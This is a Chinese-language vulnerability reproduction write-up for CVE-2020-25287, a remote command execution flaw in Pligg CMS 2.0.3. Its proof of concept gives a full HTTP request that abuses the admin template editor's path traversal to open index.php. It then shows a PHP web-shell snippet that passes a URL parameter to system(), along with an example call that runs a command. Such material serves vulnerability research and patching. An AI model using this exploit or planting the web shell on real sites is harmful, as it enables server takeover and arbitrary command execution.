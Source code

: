 （CVE-2020-25287）Pligg CMS 2.0.3 远程命令执行漏洞
==================================================

一、漏洞简介
------------

该漏洞源于模板编辑器可以编辑任何文件。攻击者可利用该漏洞执行任意命令。

二、漏洞影响
------------

Pligg CMS 2.0.3

三、复现过程
------------

### POC

![1.png](resource/(CVE-2020-25287)PliggCMS2.0.3远程命令执行漏洞/media/rId25.png)

转到`/admin/admin_editor.php`拦截请求并将路径更改为文件。

例如访问目录中的`index.php`文件：

![2.png](resource/(CVE-2020-25287)PliggCMS2.0.3远程命令执行漏洞/media/rId26.png)

    POST /admin/admin_editor.php HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 33
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://kliqqi
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://www.0-sec.org/admin/admin_editor.php
    Accept-Encoding: gzip, deflate
    Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
    Cookie: panelState=CollapseManage%7CCollapseSettings%7CCollapseTemplate; PHPSESSID=lfkc3gtrv5o1golmt5md3; mnm_user=Admin; mnm_key=QWRtaW46MjI0R2dEVTAxZncxZzpl
    Connection: close

    the_file=..%2Findex.php&open=Open

只需单击"在浏览器中显示响应"，然后编辑文件即可

![3.png](resource/(CVE-2020-25287)PliggCMS2.0.3远程命令执行漏洞/media/rId27.png)

例如 ：

      if($_GET['cmd']){
        system($_GET['cmd']);
    }

最后访问`website.fr?cmd=dir`

![4.png](resource/(CVE-2020-25287)PliggCMS2.0.3远程命令执行漏洞/media/rId28.png)
